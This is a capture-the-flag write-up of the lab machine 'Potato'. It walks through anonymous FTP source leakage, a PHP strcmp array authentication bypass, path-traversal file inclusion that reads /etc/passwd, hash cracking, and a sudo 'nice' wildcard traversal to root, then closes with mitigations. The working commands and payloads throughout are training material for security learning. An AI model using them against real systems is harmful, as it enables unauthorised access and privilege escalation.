




<!-- writeup-meta
title: Potato
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.182.101
date: 2026-10-18
tags:
  - writeup
  - linux
  - ftp
  - php-type-juggling
  - lfi
  - privesc
-->
# Potato

> [!NOTE]
> **TL;DR** — Anonymous FTP leaks a PHP login backup that compares credentials with `strcmp() == 0`. Passing the username and password as arrays makes `strcmp` return `NULL` (`NULL == 0` is true), bypassing auth into the admin panel. Its log viewer is vulnerable to LFI via path traversal, which dumps `/etc/passwd` and `webadmin`'s md5crypt hash; crack it and SSH in. `webadmin` may `sudo /bin/nice /notes/*`, and a traversal in that wildcard runs `/bin/bash` as root.
>
> **Path:** anon FTP → PHP source leak → `strcmp` array auth bypass → admin panel → LFI (path traversal) → crack `webadmin` hash → SSH → `sudo nice /notes/*` traversal → root

## 1. Recon

### 1.1 Nmap

```shellsession
$ nmap -Av -sS -p- 192.168.182.101
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

**Open ports / services:**

| Port | Service | Version | Notes |
|---|---|---|---|
| 22 | SSH | OpenSSH 8.2p1 | No creds yet |
| 80 | HTTP | Apache 2.4.41 | "Potato company" — under construction |
| 2112 | FTP | ProFTPD | Anonymous allowed; **`index.php.bak`** exposed |

> [!NOTE]
> **Reasoning:** The web root is empty, but FTP on a non-standard port (2112) allows anonymous login *and* lists a `.bak` of a PHP page. A source backup is the obvious first pull — it leaks the server-side logic the live site hides.

### 1.2 Web enumeration

The web root is just a placeholder:



Directory brute-forcing turns up an admin area:

```shellsession
$ feroxbuster -u http://192.168.182.101
301      GET      http://192.168.182.101/admin => http://192.168.182.101/admin/
```

`/admin/` serves the login page whose source the FTP backup leaks — the two findings combine in the next step.

### 1.3 Anonymous FTP — the source leak

```shellsession
$ lftp -u anonymous, -p 2112 192.168.182.101 -e "mirror / .;bye"
$ ls
index.php.bak  welcome.msg
```

`welcome.msg` is just a banner. `index.php.bak` is the login page's source, and the authentication logic is the whole box:

```php
$pass = "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0 && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! ... <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  } else {
    echo "Bad login/password!";
  }
}
```

## 2. Foothold

### 2.1 Auth bypass — strcmp type juggling

> [!IMPORTANT]
> **Vulnerability:** the login compares with `strcmp(...) == 0` (loose `==`). `strcmp` returns `NULL` when handed an array instead of a string, and `NULL == 0` evaluates to `true`. Submitting both fields as arrays makes both comparisons return `NULL`, both conditions pass, and auth is bypassed — no password needed.

The `.bak` says the password is `potato`, but that's stale: the admin rotated it (the log viewer later shows an "Operation: password change" entry), so the leaked value is useless and the bypass is the real way in. Submit the parameters as arrays:

```shellsession
$ curl -i -X POST "http://192.168.182.101/admin/index.php?login=1" \
    --data "username[]=admin&password[]=x"
HTTP/1.1 200 OK
Set-Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh; expires=...; Max-Age=31536000
...
Welcome! Go to the dashboard
```

The response leaks the current password in the `pass` cookie. Setting that cookie in the browser unlocks `/admin/dashboard.php`:



### 2.2 LFI in the log viewer

The dashboard's **Logs** page lets you pick `log_01`–`log_03` and fetch its contents — a `POST /admin/dashboard.php?page=log` with a `file=log_01.txt` body:



Sending that request to Burp Repeater to tamper with `file`:



`file=/etc/passwd` failed, but `file=../../../../../../../etc/passwd` worked.

> [!TIP]
> **Why traversal and not an absolute path:** the backend builds the include path by appending `file` onto a fixed logs directory — roughly `include("/var/www/html/admin/logs/" . $_GET['file'])`. An absolute `/etc/passwd` lands at `.../logs//etc/passwd`, which doesn't exist. The `../` sequence instead climbs *out* of the logs directory until it reaches the filesystem root, then down to `/etc/passwd`.

`/etc/passwd` gave three real users — `florianges`, `ubuntu`, and `webadmin` — and the last one carries its md5crypt (`$1$`) hash **right in `/etc/passwd`'s second field**, where an `x` should defer to the shadow file. Since `/etc/passwd` is world-readable, that's the hash handed over for free.

### 2.3 Crack the hash and SSH in

```shellsession
$ echo '[REDACTED]' > hash.txt
$ hashcat -m 500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
[REDACTED]:[REDACTED]
```

The cracked password reused on SSH:

```shellsession
$ ssh webadmin@192.168.182.101
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
```

- **Initial access as:** `webadmin`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

### 3.1 Enumeration — sudo rights

```shellsession
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ sudo -l
User webadmin may run the following commands on lab-pg-10-ubuntu20-potato-240-132:
    (ALL : ALL) /bin/nice /notes/*
```

`webadmin` can run `/bin/nice /notes/*` as root. `/notes/` holds two root-owned scripts I can't read:

```shellsession
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ ls -la /notes/
-rwx------  1 root root   11 Aug  2  2020 clear.sh
-rwx------  1 root root    8 Aug  2  2020 id.sh
```

### 3.2 Exploitation — wildcard path traversal

> [!IMPORTANT]
> **Vector:** the sudo rule allows any argument matching `/notes/*`. `nice` just launches whatever binary it's given (its real job — adjusting scheduling priority — is irrelevant here). sudo's `*` matches across `/`, so `/notes/../bin/bash` satisfies the pattern, and that path resolves straight to `/bin/bash` — I can run bash as root without ever touching the two scripts.

```shellsession
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ sudo /bin/nice /notes/../bin/bash
root@lab-pg-10-ubuntu20-potato-240-132:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)
```

### 3.3 Root

```shellsession
root@lab-pg-10-ubuntu20-potato-240-132:/home/webadmin# cat /root/proof.txt
[REDACTED]
```

- **Escalated to:** `root`
- **proof.txt:** `[REDACTED]`

## 4. Lessons Learned

- **Backup files are gold.** `index.php.bak` over anonymous FTP handed over the entire auth logic. Always pull `.bak`/`.old`/`~`/`.swp` copies — they leak the source the live app hides.

- **`strcmp` + loose `==` is an auth bypass.** Any PHP that compares user-controllable input with `strcmp($x, $y) == 0` is bypassable: send the parameter as an array (`param[]=x`), `strcmp` returns `NULL`, and `NULL == 0` is `true`. Watch for `==` instead of `===` around `strcmp`/`strpos`.

- **An absolute path failing doesn't mean there's no LFI.** When `/etc/passwd` returns nothing, try `../` traversal — the app is probably prepending a directory to your input, and climbing out reaches the file.

- **Read sudo rules literally, wildcards included.** `/bin/nice /notes/*` looks scoped to `/notes/`, but `*` plus a `../` traversal runs *any* binary as root. A wildcard in a sudo path argument is almost always exploitable.

- **New technique for my notes:** `strcmp` array type-juggling bypass; sudo wildcard + path traversal via `nice`.

## 5. Mitigation

- **Don't expose source backups:** keep `.bak` files out of web and FTP roots, and disable anonymous FTP write/read on sensitive directories.

- **Compare safely:** use `===` (strict) or `hash_equals()`/`password_verify()`, and reject non-string inputs so an array can't coerce the comparison. Never store or compare plaintext passwords.

- **Kill the LFI:** don't build include paths from user input — map `log_01`–`log_03` to fixed server-side paths, `basename()` the parameter, and reject `../`.

- **Scope the sudo rule:** grant exact commands, never a wildcard path argument. `/bin/nice /notes/clear.sh` (and `id.sh`) instead of `/notes/*` removes the traversal.

## References

- [PayloadsAllTheThings — PHP type juggling (strcmp)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)
- [HackTricks — LFI / path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [hashcat — mode 500 (md5crypt)](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [GTFOBins — nice](https://gtfobins.github.io/gtfobins/nice/)
